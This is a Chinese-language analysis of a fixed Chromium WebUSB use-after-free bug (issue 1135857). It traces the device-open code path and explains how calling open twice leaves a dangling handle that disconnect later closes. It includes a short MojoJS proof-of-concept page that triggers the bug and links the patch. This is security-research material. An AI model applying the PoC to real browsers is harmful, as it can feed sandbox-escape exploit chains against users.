

https://bugs.chromium.org/p/chromium/issues/detail?id=1135857
### 分析

先简单跟踪一遍UsbDevice接口中open的流程：
它在DeviceImpl::Open中被调用
``` c++
void DeviceImpl::Open(OpenCallback callback) {
  if (device_handle_) {
    std::move(callback).Run(mojom::UsbOpenDeviceError::ALREADY_OPEN);
    return;
  }

  if (!device_->permission_granted()) {
    device_->RequestPermission(
        base::BindOnce(&DeviceImpl::OnPermissionGrantedForOpen,
                       weak_factory_.GetWeakPtr(), std::move(callback)));
    return;
  }

  device_->Open(base::BindOnce(&DeviceImpl::OnOpen, weak_factory_.GetWeakPtr(),
                               std::move(callback)));
}


const scoped_refptr<device::UsbDevice> device_;
```

```
base::BindOnce(&DeviceImpl::OnOpen, weak_factory_.GetWeakPtr(),
                               std::move(callback)));

using OpenCallback = base::OnceCallback<void(scoped_refptr<UsbDeviceHandle>)>;
```
DeviceImpl::OnOpen作为OpenCallback callback传入UsbDeviceImpl::Open，可以看到OpenCallback的定义，这里表示他在被回调时需要通过run去提供一个scoped_refptr<UsbDeviceHandle>，所以这里在base::BindOnce将其其余参数做了绑定。

```c++
void UsbDeviceImpl::Open(OpenCallback callback) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);

  scoped_refptr<base::SequencedTaskRunner> blocking_task_runner =
      UsbService::CreateBlockingTaskRunner();
  blocking_task_runner->PostTask(
      FROM_HERE,
      base::BindOnce(&UsbDeviceImpl::OpenOnBlockingThread, this,
                     std::move(callback), base::ThreadTaskRunnerHandle::Get(),
                     blocking_task_runner));
}
```
接着就是通过PostTask来创建任务，这两个函数都不是重点，我们重点看后面的函数。
```c++
void UsbDeviceImpl::OpenOnBlockingThread(
    OpenCallback callback,
    scoped_refptr<base::TaskRunner> task_runner,
    scoped_refptr<base::SequencedTaskRunner> blocking_task_runner) {
  base::ScopedBlockingCall scoped_blocking_call(FROM_HERE,
                                                base::BlockingType::MAY_BLOCK);
  libusb_device_handle* handle = nullptr;
  const int rv = libusb_open(platform_device(), &handle);
  if (LIBUSB_SUCCESS == rv) {
    ScopedLibusbDeviceHandle scoped_handle(handle,
                                           platform_device_.GetContext());
    task_runner->PostTask(
        FROM_HERE,
        base::BindOnce(&UsbDeviceImpl::Opened, this, std::move(scoped_handle),
                       std::move(callback), blocking_task_runner));
  } else {
    USB_LOG(EVENT) << "Failed to open device: "
                   << ConvertPlatformUsbErrorToString(rv);
    task_runner->PostTask(FROM_HERE,
                          base::BindOnce(std::move(callback), nullptr));
  }
}
```

可以看到在UsbDeviceImpl::Opened中，他创建了一个新的device_handle，并传入了handles。
```c++
void UsbDeviceImpl::Opened(
    ScopedLibusbDeviceHandle platform_handle,
    OpenCallback callback,
    scoped_refptr<base::SequencedTaskRunner> blocking_task_runner) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);

  scoped_refptr<UsbDeviceHandle> device_handle = new UsbDeviceHandleImpl(
      this, std::move(platform_handle), blocking_task_runner);
  handles().push_back(device_handle.get());
  std::move(callback).Run(device_handle);
}


using OpenCallback = base::OnceCallback<void(scoped_refptr<UsbDeviceHandle>)>;
```

回调DeviceImpl::OnOpen，在这个函数中有一个很重要的内容：self->device_handle_ = std::move(handle); 这里存在一个问题，如果频繁调用DeviceImpl::OnOpen，就会导致旧的device_handle_被析构，但是他并没清除handles中push的device_handle。
```c++
void DeviceImpl::OnOpen(base::WeakPtr<DeviceImpl> self,
                        OpenCallback callback,
                        scoped_refptr<UsbDeviceHandle> handle) {
  if (!self) {
    if (handle)
      handle->Close();
    return;
  }

  self->device_handle_ = std::move(handle);
  if (self->device_handle_ && self->client_)
    self->client_->OnDeviceOpened();

  std::move(callback).Run(self->device_handle_
                              ? mojom::UsbOpenDeviceError::OK
                              : mojom::UsbOpenDeviceError::ACCESS_DENIED);
}
```

当设备被拔出或移除时，就会调用下面的函数，这时handle->Close();就会触发uaf。
```
void UsbDevice::OnDisconnect() {
  // Swap out the handle list as HandleClosed() will try to modify it.
  std::list<UsbDeviceHandle*> handles;
  handles.swap(handles_);
  for (auto* handle : handles)
    handle->Close();
}
```


poc：

```
<html>
<head>
  <script src="./mojo_bindings.js"></script>
  <script src="./third_party/blink/public/mojom/usb/web_usb_service.mojom.js"></script>
<script>
   var wus_ptr = new blink.mojom.WebUsbServicePtr();
   Mojo.bindInterface(blink.mojom.WebUsbService.name,mojo.makeRequest(wus_ptr).handle);
   var ud_ptr = new device.mojom.UsbDevicePtr();

   wus_ptr.getPermission([]).then(result =>{
       wus_ptr.getDevices().then(result =>{
           wus_ptr.getDevice(result.results[0].guid, mojo.makeRequest(ud_ptr));
           ud_ptr.open();
           ud_ptr.open();
       });
   });
</script>
</head>
</html>
```

补丁：

https://chromium-review.googlesource.com/c/chromium/src/+/2454846



这里增加了opening_这一check，避免了open之后重复多次open。

